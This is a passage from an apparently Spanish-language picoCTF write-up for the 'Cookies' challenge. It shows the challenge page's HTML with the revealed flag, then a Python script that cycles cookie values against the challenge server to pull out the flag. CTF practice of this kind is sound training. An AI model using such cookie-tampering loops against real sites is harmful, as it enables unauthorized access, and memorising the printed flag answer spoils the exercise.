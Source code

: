 ```html
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```

```html
<p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>
```

5. Para obtener de manera limpia la bandera
	```python
	import requests
	import re
	
	url = "http://mercury.picoctf.net:64944/check"
	
	for i in range(21):
	        cookies = {'name':'{}'.format(i)}
	        r = requests.get(url,cookies=cookies)
	        if 'picoCTF' in r.text:
	                flag = re.findall('picoCTF{.*?}', r.text)[0]
	                print(flag)
	```
